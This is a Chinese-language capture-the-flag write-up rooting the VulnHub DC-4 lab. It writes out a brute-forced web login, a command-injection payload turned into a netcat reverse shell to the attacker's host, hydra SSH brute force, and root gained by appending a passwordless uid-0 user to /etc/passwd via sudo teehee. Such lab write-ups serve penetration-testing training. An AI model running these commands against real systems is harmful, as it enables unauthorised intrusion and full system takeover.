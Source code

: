 [靶机地址](https://www.vulnhub.com/entry/dc-4,313/)
靶机描述:
```
DESCRIPTION
DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
```

不给提示了 嘛 慢慢琢磨呗~

**环境配置**
一样的 启动后改NAT

**靶机ip**: 192.168.136.155

![img](DC-4/images/image.png)

**信息收集**

`nmap -A`

```
──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -A 192.168.136.155        
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-18 07:13 CST
Nmap scan report for 192.168.136.155
Host is up (0.00063s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 00:0C:29:9F:66:1D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.136.155

```

还是web服务和ssh两个端口

还是先从80端口打起
没有识别出web框架 扫目录也没什么用 只有孤零零的登录界面...
尝试爆破一下弱口令 应该跟以前一样是爆不出来的
emmm... 是信息收集还不到位吗
真的找不到入口点啊... 
sql注入也不行...

emmm... (像极了这次打hvv...)

只能暴力破解登录了...
那么多字典 都跑一跑
有个400w+的字典...
还真就跑出来了
![img](DC-4/images/image-1.png)

admin  happy 

登录后发现能够执行三种命令
![img](DC-4/images/image-2.png)

可能存在RCE
bp抓包 发现是这种payload `radio=ls+-l&submit=Run`
这没有任何waf 的RCE
可以 nc -c 反弹shell
`nc%20-c%20bash%20192.168.136.146%20%209999`

emm 中途把靶机搞炸了 重开一个
ip : 192.168.136.156

尝试SUID提权
```
find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
/bin/ping
/home/jim/test.sh

```

`/home/jim/test.sh`

尝试vi靶机又挂了... 是不能vi罢... (靶机挂了直接重启DC4即可)

再开一次靶机...
ip:  192.168.136.156

python起一个交互shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

我们要先想办法拿到www-data的密码 (不管怎样 提权至少要有当前用户的密码.)
就到处找找config passwd等
找不到...

找用户: **ls /home** ...
找到三个user `charles  jim  sam`

```
www-data@dc-4:/usr/share/nginx/html$ ls /home/jim/backups
ls /home/jim/backups
old-passwords.bak
```


查看得到一个字典
可以用hydra爆破ssh
把字典复制到本地攻击机打
`hydra -l jim -P password.txt -t 16 -vV 192.168.136.156 ssh`
![img](DC-4/images/image-3.png)

攻击机ssh登录 jibril04
![img](DC-4/images/image-4.png)

test.sh有权限 但是如果直接改的话就把权限改没了....
又得重配置一次...
emm 这里不好提权 然后发现前面ssh登录的时候有提示...
![img](DC-4/images/image-5.png)

查看mail
`cat /var/mail/jim`

```
Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```

得到Charles的密码
`charles`  `^xHhA&hvim0y`

`sudo -l`
![img](DC-4/images/image-6.png)

**teehee提权**:
```
teehee是个小众的linux编辑器。如果有sudo权限。可以利用其来提权

核心思路就是利用其在passwd文件中追加一条uid为0的用户条目

echo "raaj::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
按照linux用户机制，如果没有shadow条目，且passwd用户密码条目为空的时候，可以本地直接su空密码登录。
所以只需要执行su raaj就可以登录到raaj用户，这个用户因为uid为0，所以也是root权限
```

![img](DC-4/images/image-7.png)

```
root@dc-4:/home/jim# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/home/jim# ls /root
flag.txt
root@dc-4:/home/jim# cat /root/fla*



888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
root@dc-4:/home/jim#
```

Got It!

---
---

这个靶机只要开始爆破登陆进去后面其实难度不大
考察点:
- 强大的字典爆破弱口令
- RCE反弹shell
- 找用户 -> 密码字典
- hydra爆破ssh
- ssh jim 登陆查看mail 切换charles
- teehee提权